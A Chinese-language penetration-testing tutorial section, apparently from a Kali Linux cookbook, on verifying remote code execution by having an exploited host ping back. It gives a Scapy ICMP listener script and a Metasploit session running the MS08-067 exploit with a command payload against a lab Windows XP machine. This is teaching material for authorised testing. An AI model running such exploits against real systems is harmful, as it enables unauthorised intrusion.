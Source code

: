 ## 5.7 使用 ICMP 交互来验证漏洞

作为渗透测试者，任何给定漏洞的最佳结果是实现远程代码执行。 但是，在某些情况下，我们可能只想确定远程代码执行漏洞是否可利用，但不想实际遵循整个利用和后续利用过程。 一种方法是运行一个脚本，记录ICMP流量，然后在远程系统上执行ping命令。 该秘籍演示了如何编写自定义脚本，用于使用ICMP流量验证远程代码执行漏洞。

### 准备

要使用ICMP交互验证漏洞，你需要一个运行拥有远程代码执行漏洞的软件的系统。 此外，本节需要使用文本编辑器（如VIM或Nano）将脚本写入文件系统。 有关编写脚本的更多信息，请参阅本书第一章中的“使用文本编辑器（VIM和Nano）”秘籍。

### 操作步骤

在实际利用给定漏洞之前，我们必须部署一个脚本，来记录传入的ICMP流量。 这可以通过使用Scapy的简单Python脚本完成，如下所示：

```
#!/usr/bin/python

import logging 
logging.getLogger("scapy.runtime").setLevel(logging.ERROR) 
from scapy.all import *

def rules(pkt):   
    try:      
        if (pkt[IP].dst=="172.16.36.224") and (pkt[ICMP]):
            print str(pkt[IP].src) + " is exploitable"  
    except:    
        pass

print "Listening for Incoming ICMP Traffic.  Use Ctrl+C to stop listening"

sniff(lfilter=rules,store=0) 
```

这个Python脚本监听所有传入的流量，并将发往扫描系统的任何ICMP流量的源标记为存在漏洞。 为了使用此脚本验证漏洞是否能够利用，我们需要执行代码，使远程系统`ping`我们的扫描系统。 为了演示这一点，我们可以使用 Metasploit 来利用远程代码执行漏洞。 但在这之前，我们需要启动我们的脚本，如下：

```
root@KaliLinux:~# ./listener.py 
Listening for Incoming ICMP Traffic.  Use Ctrl+C to stop listening 
```

接下来，我们需要利用导致远程代码执行的漏洞。 通过检查 Windows XP 框的 Nessus 扫描结果，我们可以看到系统容易受到 MS08-067 漏洞的攻击。 为了验证这一点，我们使用执行`ping`命令的载荷，使其`ping`我们的扫描系统来利用漏洞，如下所示：

```
msf > use exploit/windows/smb/ms08_067_netapi 
msf  exploit(ms08_067_netapi) > set PAYLOAD windows/exec 
PAYLOAD => windows/exec 
msf  exploit(ms08_067_netapi) > set RHOST 172.16.36.225 
RHOST => 172.16.36.225 
msf  exploit(ms08_067_netapi) > set CMD cmd /c ping 172.16.36.224 -n 1
CMD => cmd /c ping 172.16.36.224 -n 1 
msf  exploit(ms08_067_netapi) > exploit

[*] Automatically detecting the target... 
[*] Fingerprint: Windows XP - Service Pack 2 - lang:English 
[*] Selected Target: Windows XP SP2 English (AlwaysOn NX) 
[*] Attempting to trigger the vulnerability... 
```
